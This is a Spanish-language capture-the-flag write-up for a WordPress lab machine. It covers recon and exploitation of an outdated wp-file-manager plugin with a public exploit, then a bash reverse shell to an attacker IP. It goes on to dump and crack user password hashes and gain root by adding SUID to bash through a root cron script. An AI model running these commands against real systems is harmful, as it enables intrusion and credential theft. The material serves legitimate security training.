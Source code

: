 ### Tags `wordpress` `pspy` `mysql`

# Reconocimiento (**LINUX**)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/e7813e89-48e9-445d-8b64-0387667f2680)

# Escaneo (**22, 80**)

```css
sudo nmap -p22,80 -sCV <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/314358fb-f288-4e35-8ea0-38811821cb24)

# Port 80

Esta es al web que tiene una imagen, nos *descargamos la imagen* para ver si había algo de estenografía pero no.

![image](https://github.com/user-attachments/assets/8eadce0a-cef0-4652-a331-e54244cb87f8)

## Gobuster

Enumeramos directorios y encontramos `/blog`

```ruby
gobuster dir -u http://<IP>  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html 
```

![image](https://github.com/user-attachments/assets/5815384e-fd30-4e1c-8d38-f9b45a30954e)

Entramos y nos encontramos con un **wordpress**, y un dominio `href="http://wordpress.aragog.hogwarts` que lo agregamos al **/etc/hosts** (también agregar `aragog.hogwarts`) 

![image](https://github.com/user-attachments/assets/fd35b325-7831-49f2-8b91-a62e39670d34)


Jugando otra con Gobuster encontramos este `wp-login.php` que por defecto tienen todos los wordpress

```ruby
 gobuster dir -u http://wordpress.aragog.hogwarts/blog/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

![image](https://github.com/user-attachments/assets/4a3f9a48-e7ec-4790-99a0-c256394e8b11)

# Wpscan

Ahora lo que hacemos es que como tenemos un **CMS wordpress**., jugamos con la herramienta `wpsacn` para que nos enumere plugins de manera agresiva

```ruby
wpscan --url http://wordpress.aragog.hogwarts/blog/ --plugins-detection aggressive 
```

Nos ha encontrado 2 el `akismet` que suele estar en todos los wordpress y también nos encontró el `wp-file-manager` 

![image](https://github.com/user-attachments/assets/1182f715-8b8f-4220-9334-4322b270936b)

Si observamos bien ahí nos dice que la última versión del plugin es la `8.0` y que la máquina tiene la `6.0` por ende esta desactualizada

![image](https://github.com/user-attachments/assets/1111ad3b-5ed6-4285-a2eb-505243ee77a2)

Lo que hacemos es buscar por Google y encontramos este [Exploit](https://www.exploit-db.com/exploits/51224) y lo que hacemos es descargárnoslo y poner: 

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog id 
```

![image](https://github.com/user-attachments/assets/94b82743-e5c8-49ca-b8df-b5f83abbcb3a)

Ahora nos mandamos una Reverse-Shell de esta forma:

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog/ "bash -c 'bash -i >& /dev/tcp/192.168.0.159/443 0>&1'"
```

![image](https://github.com/user-attachments/assets/add8197b-fd57-4e18-a55e-0e06f254e369)

Hacemos el tratamiento de la `TTY`

```ruby
script /dev/null -c bash
Ctrl + z
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```

# Escalada (``hagrid98``)

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/9e28c6e5-146c-47e0-9471-8d87a4bbb6e8)


### Mysql

Enumerando encontramos credenciales en `/etc/wordpress/` para la base de datos ---> `root:mySecr3tPass`

![image](https://github.com/user-attachments/assets/828bf7da-aad8-4e1c-9621-a8607fe2568c)

Entramos dentro poniendo

```bash
mysql -u root -p
```

 Comandos:
	- `show databses` : listamos las bases de datos existentes
	- `use wordpress` : para meternos dentro de la base de datos Wordpress
	- `show tables` : para que lista las tablas dentro de esa base de datos


![image](https://github.com/user-attachments/assets/29c5b66e-7d61-44c0-9178-4ab8f712fe7e)

Una ves nos listó las tablas queremos:
	- `describe wp_users` : que me describa que tipo de tabla es, que campos contiene, que son , etc
	- `select user_login,user_pass from wp_users` : para que me dumpee todo dentro de esos parámetros de la tabla seleccionada


![image](https://github.com/user-attachments/assets/3a4085fb-0fed-4488-8376-36e5d7035e0c)

### John The Ripper

Nos copiamos el hash para romperlo y obtener la contraseña en texto plano

```ruby
nano hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

![image](https://github.com/user-attachments/assets/c52d8937-c1a6-43ba-ac56-827a49dc1816)
![image](https://github.com/user-attachments/assets/994c75c9-06c1-412b-8ea1-de25797a2f5c)

# Escalada ``ROOT``

- Lo que hacemos es jugar con [Pspy64](https://github.com/DominicBreuker/pspy/releases) para que nos reporte todas la tareas que se están ejecutando por detrás.
	- Nos lo descargamos, le damos permisos y lo transferimos a la máquina víctima

![image](https://github.com/user-attachments/assets/40a61ed7-2fb4-4c34-8d9a-edac7e2fc13e)
![image](https://github.com/user-attachments/assets/1289edc5-55d0-4ab8-97e5-4d07aded8bde)

Lo ejecutamos así:

```css
./pspy64
```

Y observamos esto:

![image](https://github.com/user-attachments/assets/e9ed9d20-11cd-4ea1-8d3c-28fe5baf1794)

Como es una tarea  que la esta ejecutando root  y hace un `/bin/bash` hacemos lo siguiente

![image](https://github.com/user-attachments/assets/0cba1633-46b0-4116-b09e-c6cdcd8a793e)

Como vimos que éramos los **propietarios de ese script** lo que hicimos es convertir en ``SUID`` la bash:

```ruby
nano .backup.sh
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/cc953029-b7d6-4eee-9fe0-074ae219af9f)

Y tenemos la última flag siendo `root`

![image](https://github.com/user-attachments/assets/b62dafd5-83c1-4c19-985c-3af91aacc326)





